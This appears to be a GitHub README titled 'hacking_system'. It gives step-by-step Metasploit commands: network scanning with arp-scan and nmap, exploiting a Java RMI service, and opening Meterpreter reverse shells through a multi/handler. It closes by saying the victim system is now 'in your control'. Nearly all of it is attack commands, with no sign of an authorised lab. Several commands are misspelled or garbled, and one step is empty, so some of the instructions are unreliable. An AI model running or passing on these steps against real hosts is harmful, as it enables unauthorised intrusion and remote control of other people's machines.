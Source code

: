 # hacking_system

Step 1: Do a host discovery & perform an Enumeration

Command: arp-scan 192.168.0.1/24<Enter your network Range>
Command: nmap -sS 192.168.0.1/24 -v
Command: nmap -sS -A 192.168.0.104 -vv


Step 2: Meanwhile, Setup msfconsole

Command: service postgresql start
Command:su postgress
command: createuser msfuser1 -P <replace “msfuser1” with your username>

Set the user as superuser & create a database
Command:  reated msfproj1 –owner=msfuser1 <replace “msfproj1” with your database name & “msfuser1” with your username>
Command: exit

Start the msfconsole
Command: msfconsole


Step 3: Connect to new user & DB in msfconsole & Create new Workspace
msf> db_disconnect
msf> db_connect msfuser1:admin@localhost/msfproj1
db_connect user:pass@host/dbname

To see the current workspace,
msf> workspace
msf> workspace -a newproject <replace with your  esired name>
msf> workspace “newproject”
 
Now just check everything.
msf> db_status
msf> workspace


Step 4: Populate the hosts & services to metasploit db.
This is one of the cool features of msfconsole. You can add hosts,services & vulnerabilities to the database. 
We can run nmap from within msfconsole. All the results are stored in the database also. Issue an nmap scan agian within msfconsole. 
Here only difference is we use db_nmap instead of the regular command.
msf> db_nmap -sS 192.168.0.1/24 -vv


Step 5: Identify a vulnerable service.
 

Step 6: Search & Use Module in msfconsole.
msf> search java_rmi
msf> info exploit/multi/misc/java_rmi_server
msf> use exploit/multi/misc/java_rmi_server
 
Now you can see the prompt has changed. We can see the options by
>show options

Set the RHOST which is our target which is running the vulnerable service.
set RHOST 192.168.0.104

Remember to set all options which have a “Required YES” value. See the table of options. 
Also check if the RPORT is also correct. Check the Nmap result & the currently set Port and see if it matches. 
Next we have to set all the required options & a payload. First we have to search for compatible payloads. 
All payloads may not be compatible with current module.
>show payloads

Then for setting it, copy the path & issue:
>set PAYLOAD java/meterpreter/reverse_tcp

Meterpreter is a state of the art payload. We can have lot of fun with this powerful payload. 
We will discuss that later. Now set the LHOST, which is the machine to which the payload has to return connection. 
Remember to give the full ip address instead of localhost or 127.0.0.1 etc
set LHOST 192.168.0.103

If you want, you can change the listening Port
set LPORT 4445

All set, now
 
meterpreter> ifconfig
meterpreter>getuid
 

Step 7: Brief it UP.
As this post got a bit lengthy, I have included a screenshot of the procedure very briefly.
 
Open terminal:
 
TYPE: msfconsole		

It will a minute.

TYPE: use exploit/multi/handler
TYPE: set payload windows/meterpreter/reverse_tcp	

And we need to set your local host

TYPE: set lhost (your ip address)
TYPE: set lport (HERE)
TYPE: exploit	

And now your victim system in your control

TYPE: HELP		
For see commands
